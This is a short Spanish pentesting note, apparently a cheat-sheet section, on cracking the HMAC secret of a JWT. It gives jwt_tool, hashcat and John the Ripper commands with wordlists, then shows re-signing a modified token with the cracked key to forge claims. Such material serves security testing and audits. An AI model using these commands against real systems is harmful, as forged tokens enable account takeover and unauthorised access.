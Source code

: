 Existen muchas herramientas para el craqueo de `JWT`, y `jwt_tool` no es una excepción. Esto es útil para una verificación rápida contra listas de contraseñas filtradas conocidas o contraseñas predeterminadas.

Utilice el modo *Cracking* de `jwt_tool` junto con un archivo de diccionario para intentar verificar la clave con todas las palabras:

```
python3 jwt_tool.py JWT_HERE -C -d dictionary.txt
```

Otra alternativa viable es utilizar `Hashcat` y `JohnTheRipper` para el proceso:

#### Ataque de diccionario: 
```
hashcat -a 0 -m 16500 jwt.txt wordlist.txt
```

#### Ataque basado en reglas: 
```
hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
```

#### Ataque de fuerza bruta: 
```
hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6
```
 
#### Option a:
```
python jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LT > jwt.john
```

#### Option b:
```
john -w=/usr/share/wordlists/rockyou.txt jwt.txt
```

#### Option c:
```
python3 crackjwt.py jwt.txt /usr/share/wordlists/rockyou.txt
```
```
/opt/JohnTheRipper/run/john jwt.john
```

Una vez obtenida la password, modificar los parámetros del payload a conveniencia, y especificar la password con el parámetro `-p`:
```
python3 jwt_tool.py [jwt_modificado] -S hs256 -p [passwordCrackeada]
```

*Anothers alternatives to crack:* 
*https://github.com/lmammino/jwt-cracker*
*https://github.com/jmaxxz/jwtbrute*

Si puede descifrar el secreto de `HMAC`, puede falsificar lo que quiera en el token. Esta podría ser una vulnerabilidad crítica.
